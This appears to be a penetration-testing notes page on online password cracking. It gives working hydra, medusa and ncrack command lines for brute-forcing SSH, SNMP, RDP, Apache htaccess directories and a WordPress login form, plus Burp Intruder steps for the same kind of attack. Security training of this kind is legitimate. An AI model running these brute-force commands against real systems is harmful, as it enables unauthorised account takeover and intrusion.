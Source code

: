 # Online password cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp Suite

1. Intecept a login attempt.
2. Modify the user field with ^USER^ and the password field with ^PASS^
3. Grab the post request path \(/wp-login.php\)
4. Grab the modified login request \(last field in request\)

Should be able to populate like below

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In
```

1. Send a fake request to the site and grab any text indicators of an invalid request \(_is incorrect_ in example below\)

2. Append to the end of the hydra syntax and close double quote

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:is incorrect"
```

Use Burp **Pro** suite. \(Can be performed in free but is ridiculously slow\)

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have only one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```



